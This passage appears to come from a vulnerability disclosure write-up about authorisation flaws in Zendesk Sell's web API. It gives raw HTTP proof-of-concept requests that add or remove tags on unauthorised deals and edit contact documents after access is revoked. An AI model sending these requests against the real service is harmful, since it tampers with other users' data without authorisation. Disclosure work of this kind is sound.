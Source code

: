  
- Adding tags to contacts/leads/deals 

 ```http
POST /apis/tags/api/v1/taggings/batch_add.json
Host: app.futuresimple.com
Connection: close
Origin: https://app.futuresimple.com
Content-Type: application/json
x-csrf-token-signature: [VALUE]

{"tagid":"3","dealid":"231"}
```
 
- Removing tags from contacts/leads/deals

 
 ```http
POST /apis/tags/api/v1/taggings/batch_untag.json
Host: app.futuresimple.com
Connection: close
Origin: https://app.futuresimple.com
Content-Type: application/json
x-csrf-token-signature: [VALUE]

{"tagid":"2"}
```


But we are  able to add/modify/remove the tags of other users that the we are not supposed to be authorised over. This could lead to  quite a chaotic situation as we can add tags on any unauthorised deal or even render a particular data set(contacts/leads/deals) tag less by removing the tags.


---

## Changing Documents on contacts after admin removes our access to contacts

In Zendesk an admin can invite a user to a limited access role through which the user can view/update/delete and convert their own contacts,leads and deals in their account.
The user can also add documents to his contacts etc.
As the admin has full authority over invited users , the admin can revoke the ownership of the contacts to the invited user. As a result of this the invited user is rendered unable to edit the documents attached to the contacts and the ownership is transferred to the admin.
But we identified a vulnerable endpoint through which we were still able to gain edit access on the documents attached with the contacts even after the admin has revoked our access.

- Editing documents on contacts
 
```http
PUT /apis/uploader/api/v2/uploads/[upload_id].json
Host: app.futuresimple.com
Connection: close
Origin: https://app.futuresimple.com
Content-Type: application/json
x-csrf-token-signature: [VALUE]

{"KEY":"VALUE"}
```
 